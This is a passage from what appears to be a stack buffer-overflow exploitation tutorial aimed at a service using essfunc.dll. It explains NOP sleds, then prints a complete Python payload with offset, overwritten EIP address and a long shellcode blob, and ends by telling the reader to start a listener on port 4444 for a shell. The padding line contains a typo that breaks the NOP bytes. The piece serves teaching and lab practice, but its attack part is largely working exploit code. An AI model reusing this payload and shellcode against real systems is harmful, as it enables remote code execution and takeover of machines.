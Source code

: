  

We will append this at the end of our payload. Now we're still missing one final piece of the puzzle. If our payload misses the ESP pointer by one byte it wont execute.

It's generally good practice to add 8 or 16 bytes of `\x90`, or No Operation (NOP) bytes as padding before our payload. This is what's called a NOP Sled. If ESP points anywhere at our NOP sled it'll still execute our payload.

> NOP sleds are usually more important when dealing with ASLR protections, as the size of a NOP sled increases the probability that we'll be able to execute our payload.<br> Once again for more information on this [https://github.com/r0hi7/BinExp](https://github.com/r0hi7/BinExp) is a great source.

So finally our payload should look something like:

```python
offset = 2026
overflow = 'A' * offset
EIP = '\xaf\x11\x50\x62'
padding = 'x90' * 16
shellcode = (
"\xb8\xbd\xf9\x81\x1a\xdb\xd9\xd9\x74\x24\xf4\x5e\x29\xc9\xb1"
"\x52\x83\xee\xfc\x31\x46\x0e\x03\xfb\xf7\x63\xef\xff\xe0\xe6"
"\x10\xff\xf0\x86\x99\x1a\xc1\x86\xfe\x6f\x72\x37\x74\x3d\x7f"
"\xbc\xd8\xd5\xf4\xb0\xf4\xda\xbd\x7f\x23\xd5\x3e\xd3\x17\x74"
"\xbd\x2e\x44\x56\xfc\xe0\x99\x97\x39\x1c\x53\xc5\x92\x6a\xc6"
"\xf9\x97\x27\xdb\x72\xeb\xa6\x5b\x67\xbc\xc9\x4a\x36\xb6\x93"
"\x4c\xb9\x1b\xa8\xc4\xa1\x78\x95\x9f\x5a\x4a\x61\x1e\x8a\x82"
"\x8a\x8d\xf3\x2a\x79\xcf\x34\x8c\x62\xba\x4c\xee\x1f\xbd\x8b"
"\x8c\xfb\x48\x0f\x36\x8f\xeb\xeb\xc5\x5c\x6d\x78\xc4\x29\xf9"
"\x26\xc9\xac\x2e\x5d\xf5\x25\xd1\xb1\x7f\x7d\xf6\x15\xdb\x25"
"\x97\x0c\x81\x88\xa8\x4e\x6a\x74\x0d\x05\x87\x61\x3c\x44\xc0"
"\x46\x0d\x76\x10\xc1\x06\x05\x20\x4e\xbd\x81\x0e\x07\x1b\x56"
"\x70\x32\xdb\xc8\x8f\xbd\x1c\xc1\x4b\xe9\x4c\x79\x7d\x92\x06"
"\x79\x82\x47\x88\x30\x2c\x38\x69\x99\x8c\xe8\x01\xf3\x02\xd6"
"\x32\xfc\xc8\x7f\xd8\x07\x9b\x75\x15\x65\xe6\xe2\x27\x69\x09"
"\xaf\xae\x8f\x43\x5f\xe7\x18\xfc\xc6\xa2\xd2\x9d\x07\x79\x9f"
"\x9e\x8c\x8e\x60\x50\x65\xfa\x72\x05\x85\xb1\x28\x80\x9a\x6f"
"\x44\x4e\x08\xf4\x94\x1f\x31\xa2\xc3\x4e\x87\xba\x81\x62\xbe"
"\x14\xb7\x7e\x26\x5e\x73\xa5\x9b\x61\x7a\x28\xa7\x45\x6c\xf4"
"\x28\xc2\xd8\xa8\x7e\x9c\xb6\x0e\x29\x6e\x60\xd9\x86\x38\xe4"
"\x9c\xe4\xfa\x72\xa1\x20\x8d\x9a\x10\x9d\xc8\xa5\x9d\x49\xdd"
"\xde\xc3\xe9\x22\x35\x40\x09\xc1\x9f\xbd\xa2\x5c\x4a\x7c\xaf"
"\x5e\xa1\x43\xd6\xdc\x43\x3c\x2d\xfc\x26\x39\x69\xba\xdb\x33"
"\xe2\x2f\xdb\xe0\x03\x7a"
)
payload = overflow + EIP + padding + shellcode
```

### Getting a Shell

All we have to do now is set up a listener on port 4444, and execute our exploit.

This should work on any target with a similar configuration because essfunc.dll has no protections.
